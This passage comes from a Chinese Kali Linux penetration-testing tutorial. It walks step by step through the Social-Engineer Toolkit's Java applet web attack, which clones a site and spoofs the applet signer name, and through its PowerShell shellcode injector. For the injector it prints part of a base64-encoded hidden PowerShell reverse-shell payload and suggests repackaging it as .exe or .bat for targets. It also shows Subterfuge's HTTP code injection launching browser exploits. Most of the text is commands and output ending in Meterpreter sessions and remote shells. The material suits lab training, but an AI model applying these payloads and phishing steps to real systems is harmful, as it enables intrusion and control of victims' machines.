Microsoft Windows XP [版本 5.1.2600]
(C) 版权所有 1985-2001 Microsoft Corp.
C:\Documents and Settings\Test\桌面> 
```

输出信息显示为 C:\Documents and Settings\Test\桌面>，表示成功登录到目标主机。此时相当于是以 Test 用户的身份，在目标主机中进行操作。查看当前目录中的文件夹，如下所示：

```
C:\Documents and Settings\Test\桌面>dir  #列出目录中的所有文件
dir
 驱动器 C 中的卷没有标签
 卷的序列号是 1806-07F4
C:\Documents and Settings\Test\桌面 的目录
2014-06-07 11:11  <DIR>  .
2014-06-07 11:11  <DIR>  ..
2014-05-06 19:46            54 111.txt
2014-06-07 11:00     57,364,480 AdbeRdr810_zh_CN.msi
2014-06-06 16:01        46,844 JEdB2oma7AEGV7G.pdf
2014-06-06 18:54         6,619 template.pdf
        4 个文件          57,417,997 字节
        2 个目录       38,359,552,000 可用字节 
```

输出的信息显示了目标主机桌面上的所有文件及目录。还可以查看文件的内容，如下所示：

```
C:\Documents and Settings\Test\桌面>type 111.txt   #查看文件内容
type 111.txt
Ethernet adapter 本地连接:
 Connection-specific DNS Suffix  . : localdomain
 IP Address. . . . . . . . . . . . : 192.168.41.146
 Subnet Mask . . . . . . . . . . . : 255.255.255.0
 Default Gateway . . . . . . . . . : 192.168.41.2 
```

输出的信息显示了 111.txt 文件的内容。

### 7.4.2 Web 攻击向量

Web 攻击向量会特意构造出一些对目标而言是可信且具有诱惑力的网页。SET 中的 Web 攻击向量可以复制出和实际运行的可信站点，看起来和网页完全一样。这样，目标用户以为自己正在访问一个合法的站点，而不会想到是被攻击。本小节将介绍使用 SET 实现 Web 攻击向量。

【实例 7-2】下面使用 Java applet 攻击实现 Web 攻击向量。具体操作步骤如下所示。

Java applet 攻击引入了恶意 Java applet 程序进行智能化的浏览器检查，确保 applet 能在目标浏览器中正确运行，同时也能在目标主机上运行攻击载荷。Java applet 攻击并不被认为是 Java 本身的漏洞，只是当受攻击目标浏览恶意网页时，网页会弹出一个警告。该警告信息询问是否需要运行一个不被信任的 Java applet 程序。由于 Java 允许用户对一个 apple 选择任意名字进行签名，用户可以为它的发布者定义为 Google 和 Microsoft 等。这样，很容易使一些人遭受攻击。

（1）启动社会工程学。执行命令如下所示：

```
root@kali:~# setoolkit
Select from the menu:
  1) Social-Engineering Attacks
  2) Fast-Track Penetration Testing
  3) Third Party Modules
  4) Update the Metasploit Framework
  5) Update the Social-Engineer Toolkit
  6) Update SET configuration
  7) Help, Credits, and About
 99) Exit the Social-Engineer Toolkit
set> 
```

以上输出信息显示了所有的攻击菜单列表。

（2）这里选择社会工程学攻击，输入编号 1。将显示如下所示的信息：


输出的信息显示了社会工程学中，可使用的攻击列表。

（3）这里选择 Web 攻击向量，输入编号 2。将显示如下所示的信息：

```
set> 2
The Web Attack module is a unique way of utilizing multiple web-based attacks in order to compromise the intended victim.
The Java Applet Attack method will spoof a Java Certificate and deliver a metasploit based payload. Uses a customized java applet created by Thomas Werth to deliver the payload.
The Metasploit Browser Exploit method will utilize select Metasploit browser exploits through an iframe and deliver a Metasploit payload.
The Credential Harvester method will utilize web cloning of a web- site that has a username and password field and harvest all the information posted to the website.
The TabNabbing method will wait for a user to move to a different tab, then refresh the page to something different.
The Web-Jacking Attack method was introduced by white_sheep, emgent. This method utilizes iframe replacements to make the highlighted URL link to appear legitimate however when clicked a window pops up then is replaced with the malicious link. You can edit the link replacement settings in the set_config if its too slow/fast.
The Multi-Attack method will add a combination of attacks through the web attack menu. For example you can utilize the Java Applet, Metasploit Browser, Credential Harvester/Tabnabbing all at once to see which is successful.
  1) Java Applet Attack Method
  2) Metasploit Browser Exploit Method
  3) Credential Harvester Attack Method
  4) Tabnabbing Attack Method
  5) Web Jacking Attack Method
  6) Multi-Attack Web Method
  7) Full Screen Attack Method
 99) Return to Main Menu
set:webattack> 
```

输出的信息显示了 Web 攻击向量中，可使用的攻击方法列表。

（4）这里选择 Java applet 攻击方法，输入编号 1。将显示如下所示的信息：

```
set:webattack>1
The first method will allow SET to import a list of pre-defined web
 applications that it can utilize within the attack.
The second method will completely clone a website of your choosing
 and allow you to utilize the attack vectors within the completely
 same web application you were attempting to clone.
The third method allows you to import your own website, note that you
 should only have an index.html when using the import website
 functionality.

  1) Web Templates
  2) Site Cloner
  3) Custom Import
 99) Return to Webattack Menu
set:webattack> 
```

输出的信息显示了 Java applet 攻击的菜单列表。一般情况下，使用前两种。其中第一种（Web 模块）是社会工程学创建一个一般的网页；第二种（复制网站）是使用已存在的网页作为一个模块，来攻击网页。

（5）这里选择复制网站，输入编号 2。将显示如下所示的信息：


以上输出的信息显示了可使用的攻击载荷。

（6）这里选择 Windows Reverse_TCP Meterpreter 攻击载荷，建立一个反向 TCP 连接。输入编号 2，将显示如下所示的信息：


以上输出的信息是攻击主机的相关配置。这时候，当目标主机通过浏览器访问攻击主机时将会被攻击。

（7）此时在目标主机上访问攻击主机，将出现如图 7.20 所示的界面。


图 7.20 警告对话框

（8）从该界面可以看到有一个警告对话框，询问是否要运行该程序。该对话框就是 Java applet 弹出的。从名称中可以看到，是 Verified Trusted and secure（VERIFIED）。现在单击“运行”按钮，攻击主机将会创建多个远程会话，如下所示：

```
[*] Sending stage (769536 bytes) to 192.168.6.106
[*] Meterpreter session 1 opened (192.168.6.103:443 -> 192.168.6.106:50729) at 2014-07-19 12:23:24 +0800
[*] Meterpreter session 2 opened (192.168.6.103:21 -> 192.168.6.106:50728) at 2014-07-19 12:23:25 +0800
[*] Meterpreter session 3 opened (192.168.6.103:22 -> 192.168.6.106:50727) at 2014-07-19 12:23:25 +0800
[*] Meterpreter session 4 opened (192.168.6.103:53 -> 192.168.6.106:50730) at 2014-07-19 12:23:25 +0800
msf exploit(handler) > 
```

从以上输出的信息中，可以看到创建了 4 个会话。此时可以使用 sessions 命令查看创建的会话。

（9）查看会话。执行命令如下所示：


从输出的信息中，可以看到攻击主机使用不同的端口创建了四个会话。此时可以选择启动任何一个会话，获取到远程主机的命令行 Shell。

（10）启动会话 1，并获取远程主机的 Shell。执行命令如下所示：

```
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1…
meterpreter > shell
Process 5056 created.
Channel 1 created.
Microsoft Windows [版本 6.1.7601]
       (c) 2009 Microsoft Corporation
C:\Users\Administrator\Desktop> 
```

从输出的信息中，可以看到成功的获取到一个远程 Shell。

### 7.4.3 PowerShell 攻击向量

在社会工程学中，使用基于 Java 的 PowerShell 攻击向量是非常重要的。如果目标主机没有运行 Java，则不能欺骗它访问攻击主机社会工程学的页面，将不能进行攻击。所以需要使用另一种方法实现，就是向目标主机发送病毒文件。使用 PowerShell 攻击向量可以创建 PowerShell 文件，并将创建好的文件发送给目标。当目标运行时，就可以获取一个远程连接。本小节将介绍 PowerShell 攻击向量。

【实例 7-3】使用 PowerShell 攻击向量创建 PowerShell 文件，并将该文件发送给目标主机。具体操作步骤如下所示。

（1）启动社会工程学。执行命令如下所示：

```
Select from the menu:
  1) Social-Engineering Attacks
  2) Fast-Track Penetration Testing
  3) Third Party Modules
  4) Update the Metasploit Framework
  5) Update the Social-Engineer Toolkit
  6) Update SET configuration
  7) Help, Credits, and About
 99) Exit the Social-Engineer Toolkit
set> 
```

（2）选择社会工程学，输入编号 1，如下所示：

```
set> 1
Select from the menu:
  1) Spear-Phishing Attack Vectors
  2) Website Attack Vectors
  3) Infectious Media Generator
  4) Create a Payload and Listener
  5) Mass Mailer Attack
  6) Arduino-Based Attack Vector
  7) SMS Spoofing Attack Vector
  8) Wireless Access Point Attack Vector
  9) QRCode Generator Attack Vector
 10) Powershell Attack Vectors
 11) Third Party Modules
 99) Return back to the main menu.
set> 
```

（3）选择 PowerShell 攻击向量，输入编号 10。将显示如下所示的信息：

```
set> 10
The Powershell Attack Vector module allows you to create PowerShell specific attacks. These attacks will allow you to use PowerShell which is available by default in all operating systems Windows Vista and above. PowerShell provides a fruitful landscape for deploying payloads and performing functions that do not get triggered by preventative technologies.
  1) Powershell Alphanumeric Shellcode Injector
  2) Powershell Reverse Shell
  3) Powershell Bind Shell
  4) Powershell Dump SAM Database
 99) Return to Main Menu
set:powershell> 
```

（4）选择 PowerShell 字母代码注入，输入编号 1。将显示如下所示的信息：


输出的信息显示了攻击主机的配置信息。此时已经成功启动了攻击载荷，等待目标主机的连接。以上设置完成后，将会在/root/.set/reports/powershell/目录下创建了一个渗透攻击代码文件。该文件是一个文本文件，其文件名为 x86_powershell_injection.txt。

（5）此时再打开一个终端窗口，查看渗透攻击文件的内容，如下所示：

```
root@kali:~# cd /root/.set/reports/powershell/
root@kali:~/.set/reports/powershell# ls
powershell.rc x86_powershell_injection.txt
root@kali:~/.set/reports/powershell# cat x86_powershell_injection.txt
powershell -nop -windows hidden -noni -enc JAAxACAAPQAgACcAJABjACAAPQAgACcAJwBb
AEQAbABsAEkAbQBwAG8AcgB0ACgAIgBrAGUAcgBuAGUAbAAzADIALgBkAGwAbAAiACkAXQBwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAFYAaQByAHQAdQBhAGwAQQBsAGwAbwBjACgASQBuAHQAUAB0AHIAIABsAHAAQQBkAGQAcgBlAHMAcwAsACAAdQBpAG4AdAAgAGQAdwBTAGkAegBlACwAIAB1AGkAbgB0ACAAZgBsAEEAbABsAG8AYwBhAHQAaQBvAG4AVAB5AHAAZQAsACAAdQBpAG4AdAAgAGYAbABQAHIAbwB0AGUAYwB0ACkAOwBbAEQAbABsAEkAbQBwAG8AcgB0ACgAIgBrAGUAcgBuAGUAbAAzADIALgBkAGwAbAAiACkAXQBwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAEMAcgBlAGEAdABlAFQAaAByAGUAYQBkACgASQBuAHQAUAB0AHIAIABsAHAAVABoAHIAZQBhAGQAQQB0AHQAcgBpAGIAdQB0AGUAcwAsACAAdQBpAG4AdAAgAGQAdwBTAHQAYQBjAGsAUwBpAHoAZQAsACAASQBuAHQAUAB0AHIAIABsAHAAUwB0AGEAcgB0AEEAZABkAHIAZQBzAHMALAAgAEkAbgB0AFAAdAByACAAbABwAFAAYQByAGEAbQBlAHQAZQByACwAIAB1AGkAbgB0ACAAZAB3AEMAcgBlAGEAdABpAG8AbgBGAGwAYQBnAHMALAAgAEkAbgB0AFAAdAByACAAbABwAFQAaAByAGUAYQBkAEkAZAApADsAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAbQBzAHYAYwByAHQALgBkAGwAbAAiACkAXQBwA 
```

以上信息就是 x86_powershell_injection.txt 文件中的内容。从第一行可以看出，该文件是运行 powershell 命令。如果目标主机运行这段代码，将会与 Kali 主机打开一个远程会话。

（6）此时，可以将 x86_powershell_injection.txt 文件中的内容复制到目标主机（Windows 7）的 DOS 下，然后运行。Kali 主机将会显示如下所示的信息：

```
[*] Sending stage (769536 bytes) to 192.168.6.106
[*] Meterpreter session 1 opened (192.168.6.103:443 -> 192.168.6.106:51097) at 2014-07-18 15:36:00 +0800 
```

从输出的信息，可以看到成功打开了一个 Meterpreter 会话。

（7）启动会话 1，并打开一个远程 Shell。执行命令如下所示：

```
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1…
meterpreter > shell
Process 636 created.
Channel 1 created.
Microsoft Windows [版本 6.1.7601]
          (c) 2009 Microsoft Corporation
C:\Users\Administrator> 
```

从输出的信息中，可以看到成功的获取到一个远程 Shell。

注意：在以上例子中，通过复制粘贴的方式将 PowerShell 文本文件发送给了目标，并执行它来获取远程 Shell。但是实际情况下，这是不可能的。所以，需要将创建的 PowerShell 文本文件转换成可执行的.exe 文件或批处理文件.bat。用户也可以使用前面章节中介绍的 Veil 程序，直接创建.bat 文件。

### 7.4.4 自动化中间人攻击工具 Subterfuge

Subterfuge 是一款用 Python 写的中间人攻击框架，它集成了一个前端界面，并收集了一些著名的可用于中间人攻击的安全工具。成功运行 Subterfuge 需要 Django 和 scapy 等模块。在 Subterfuge 安装包的 dependencies 目录下，提供了 Subterfuge 所需的 Python 模块。本小节将介绍 Subterfuge 工具的安装和使用。

【实例 7-4】安装 Subterfuge 工具。具体操作步骤如下所示。

（1）到[`code.google.com/p/subterfuge/downloads/list 网站下载 Subterfuge 软件包，其软件包名为 subterfuge_packages.tar.gz。`](http://code.google.com/p/subterfuge/downloads/list 网站下载 Subterfuge 软件包，其软件包名为 subterfuge_packages.tar.gz。)

（2）解压缩 Subterfuge 软件包。执行命令如下所示：

```
root@kali:~# tar zxvf subterfuge_packages.tar.gz 
```

（3）安装 Subterfuge 软件包。执行命令如下所示：

```
root@kali:~# cd subterfuge/
root@kali:~/subterfuge# python install.py 
```

执行以上命令后将显示如图 7.21 所示的界面。


图 7.21 安装 Subterfuge 界面

（4）在该界面选择 Full Install With Depencencies 选项，并单击 Install 按钮。安装完成后，将显示如图 7.22 所示的界面。


图 7.22 安装完成

（5）从该界面可以看到弹出一个小对话框，显示 Subterfuge 安装完成。此时，单击 Finish 按钮就可以完成安装。

【实例 7-5】使用 Subterfuge 工具。具体操作步骤如下所示。

（1）启动 Suberfuge 工具。执行命令如下所示：

```
root@kali:~# subterfuge 
```

执行以上命令后，将显示如下所示的信息：

```
Subterfuge courtesy of r00t0v3rr1d3 & 0sm0s1z
Validating models…
0 errors found
Django version 1.3.1, using settings 'subterfuge.settings'
Development server is running at http://127.0.0.1:80/
Quit the server with CONTROL-C. 
```

（2）打开浏览器，并输入 127.0.0.1:80 访问 Subterfuge 的主界面，如图 7.23 所示。


图 7.23 Subterfuge 主界面

（3）从该界面可以看到显示了一个 Modules 和 Settings 菜单，并且还有一个 Start 按钮。

在 Subterfuge 界面的 Modules 菜单下，可以选择所有提供的不同模块进行攻击。使用 Settings 菜单，可以修改 Subterfuge 一些功能，并且启动攻击。下面使用 HTTP Code Injection 模块，实现浏览器攻击。

【实例 7-6】演示使用 Subterfuge 的 HTTP Code Injection 模块攻击浏览器。具体操作步骤如下所示。

（1）在图 7.23 中，单击 Modules 菜单，将显示如图 7.24 所示的界面。


图 7.24 所有攻击模块

（2）在该界面选择 HTTP Code Injection 模块，将显示如图 7.25 所示的界面。


图 7.25 设置 HTTP Code Injection 模块

（3）在该界面设置 HTTP Code Injection 模块的插件信息。这里使用默认设置，并单击 Apply 按钮，将显示如图 7.26 所示的界面。


图 7.26 加载 Metasploit 框架

（4）该界面是 Subterfuge 自动打开的一个 Shell 窗口，将开始加载 Metasploit 渗透攻击模块，如图 7.27 所示。


图 7.27 加载渗透攻击模块

（5）从该界面可以看到加载了好多个渗透攻击模块，加载完后，将显示如图 7.28 所示的界面。


图 7.28 模块加载完成

（6）从该界面可以看到有一条 Done,found 18 exploit modules 信息，表示 Subterfuge 找到了 18 个渗透攻击模块。当某个用户连接 Kali 时，将会使用其中的一个模块。当目标主机访问 Kali 上的 Subterfuge 时，将会自动启动大量的渗透攻击到目标主机的浏览器上。此时，Kali 系统上将显示如图 7.29 所示的界面。


图 7.29 访问攻击主机

（7）以上显示的信息表示目标主机 192.168.6.113 访问了攻击主机的 Subterfuge。此时可以查看打开的会话，如图 7.30 所示。


图 7.30 打开的会话

（8）从该界面可以看到，成功的打开了三个会话。现在可以启动任何一个会话，并打开目标系统的 Shell，如图 7.31 所示。


图 7.31 Shell 窗口

（9）从该界面可以看到成功连接到了一个远程会话。